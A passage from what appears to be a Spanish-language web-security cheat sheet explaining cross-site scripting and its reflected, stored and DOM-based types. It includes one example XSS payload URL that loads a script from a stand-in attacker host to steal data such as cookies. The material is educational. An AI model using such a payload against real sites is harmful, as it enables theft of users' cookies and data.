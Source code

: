 Por ejemplo:

El usuario necesita enviar datos sensibles a la web, pero esta se encuentra comprometida:

1.	El usuario escribe un mensaje, las cuales son enviadas por un método GET al servidor.
2.	Este envío se encuentra comprometido, y el JavaScript indica que se van a enviar dichos datos a la página del atacante (`https://www.site.com/comments?message=<script src=https://attacker-site.com/stealdata.js></script>`).
3.	Los datos son almacenados en la página del atacante (como, por ejemplo, las cookies del usuario).

<h2 id="tipo-xss">¿Qué tipos de XSS existen?</h2>

Existen 3 tipos principales de XSS:

- **Reflected XSS:** cuando el script malicioso viene del HTTP request actual.
- **Stored XSS:** cuando el script es almacenado en la base datos del sitio web.
- **DOM-based XSS:** cuando la vulnerabilidad existe en el código del lado del cliente

<h3 id="reflected-xss">Reflected XSS</h3>

Esta vulnerabilidad aparece cuando la web recibe los datos enviados en el HTTP request y los incluye en la respuesta de forma insegura:

![port-xss-1](https://github.com/W0lfF4ng/Cheat-Sheet/blob/master/img/web/port-xss-1.png)
